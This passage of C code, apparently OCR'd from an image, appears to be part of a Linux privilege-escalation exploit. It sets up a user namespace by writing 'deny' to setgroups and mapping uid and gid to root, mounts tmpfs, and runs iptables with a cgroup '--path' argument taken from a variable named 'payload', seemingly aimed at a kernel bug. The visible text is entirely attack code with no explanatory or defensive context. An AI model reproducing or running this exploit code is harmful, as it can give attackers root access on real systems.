 ```plain

        write(a[1], &c, 1);
        read(b[0], &c, 1);

        system("mount -t tmpfs tmpfs /run");

        fd = open("/dev/null", O_RDONLY);
        if(fd < 0) die("open");

        if(dup2(fd, 2) < 0) die("dup2");

        execl("/sbin/iptables", "iptables", "-A", "OUTPUT", "-m", "cgroup", "--path", payload, "-j", "LOG", NULL);
        exit(1);
    }

    read(a[0], &c, 1);

    snprintf(path, sizeof path, "/proc/%u/setgroups", pid);

    fd = open(path, O_RDWR);
    if(!fd) die("open");

    strcpy(buf, "deny");

    if(write(fd, buf, strlen(buf)) != strlen(buf)) die("write");
    close(fd);

    snprintf(path, sizeof path, "/proc/%u/uid_map", pid);

    fd = open(path, O_RDWR);
    if(fd < 0) die("open");

    snprintf(buf, sizeof buf, "0 %d 1", getuid());

    if(write(fd, buf, strlen(buf)) != strlen(buf)) die("write");
    close(fd);

    snprintf(path, sizeof path, "/proc/%u/gid_map", pid);

    fd = open(path, O_RDWR);
    if(fd < 0) die("open");

    snprintf(buf, sizeof buf, "0 %d 1", getgid());

    if(write(fd, buf, strlen(buf)) != strlen(buf)) die("write");
    close(fd);

    write(b[1], &c, 1);

    close(a[0]);
    close(a[1]);
    close(b[0]);
    close(b[1]);

    wait(NULL);
}
```
